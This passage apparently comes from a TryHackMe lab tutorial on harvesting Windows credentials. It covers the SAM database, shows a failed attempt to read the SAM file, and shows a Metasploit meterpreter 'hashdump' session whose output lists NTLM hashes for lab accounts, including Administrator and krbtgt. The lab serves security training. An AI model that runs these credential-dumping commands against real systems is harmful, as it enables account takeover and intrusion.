 We have a use case example for exploiting users via keystrokes using Metasploit in another THM room.  For more information, you should check THM [Exploiting AD](https://tryhackme.com/room/exploitingad) (Task 5). 

### Security Account Manager (SAM)

The SAM is a Microsoft Windows database that contains local account  information such as usernames and passwords. The SAM database stores  these details in an encrypted format to make them harder to be  retrieved. Moreover, it can not be read and accessed by any users while  the Windows operating system is running. However, there are various ways and attacks to dump the content of the SAM database. 

First, ensure you have deployed the provided VM and then confirm we are not able to copy or read the `c:\Windows\System32\config\sam` file:

- **Confirming No Access to the SAM Database** 

```shell-session
 C:\Windows\system32>type c:\Windows\System32\config\sam
type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\System32> copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\ 
copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
        0 file(s) copied. 
```

### Metasploit's HashDump

The  first method is using the built-in Metasploit Framework feature,  hashdump, to get a copy of the content of the SAM database. The  Metasploit framework uses in-memory code injection to the LSASS.exe  process to dump copy hashes. For more information about hashdump, you  can visit the [rapid7 ](https://www.rapid7.com/blog/post/2010/01/01/safe-reliable-hash-dumping/)blog. We will discuss dumping credentials directly from the LSASS.exe process in another task!

**Dumping the SAM database content**        

```shell-session
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
        
```

### Volume Shadow Copy Service

The other approach uses the Microsoft Volume shadow copy service, which  helps perform a volume backup while applications read/write on volumes.  You can visit the [Microsoft documentation page](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) for more information about the service.
